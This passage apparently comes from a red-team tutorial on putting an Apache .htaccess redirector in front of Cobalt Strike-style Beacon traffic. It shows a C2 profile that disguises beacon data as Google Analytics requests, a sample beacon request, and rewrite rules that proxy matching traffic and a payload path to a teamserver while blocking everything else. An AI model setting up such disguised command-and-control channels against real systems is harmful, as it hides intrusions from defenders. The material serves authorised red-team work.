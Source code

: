 ```bash
        parameter "utmsc" "32-bit";                                                                                                                            
        parameter "utmul" "en-US";

        output {
                base64url;
                prepend "__utma"; 
                parameter "utmcc";
        }
}
```
  

The above translates into a request which looks like this:
```bash
GET /__utm.gif?utmac=UA-2201937987662-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaAAAAMM2E4ZL8UaQNTYkmpPhRcf5VIUVFm2Py10lmXl1BpewAaMKwh2_rnRjgK1vvUZ-inA HTTP/1.1
```
  

The data portion is at the end of the request (the same place the metadata is placed in the http-get block).  However, the metadata is not sent in a "post", only the Beacon's ID is.  In this case, it's embedded here: utmac=UA-220**1937987662**-2.  Since this is different for each Beacon, it has to be wildcarded - easy enough to do with a regular expression:
```bash
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]
```

##### Remember to add the **[OR]** flag to the previous rewrite condition.

You can also add any "catch all" rules that you want at the very bottom.  If none of the rewrite conditions are satisfied, it will process the final rule as a last resort.  My htaccess file now looks like this, and my Beacon is fully functional:
```bash
RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC,OR]
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]                                                                       
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteRule .* - [F]
```
  

The astute will notice that the two QUERY_STRING rewrite conditions match so closely, that you can actually remove the original and just keep the one with the wildcard in the utmac parameter.  However, since C2 profiles can use drastically different request URIs and query strings in their http-get and http-post blocks, it was worth working through the process of looking at both.

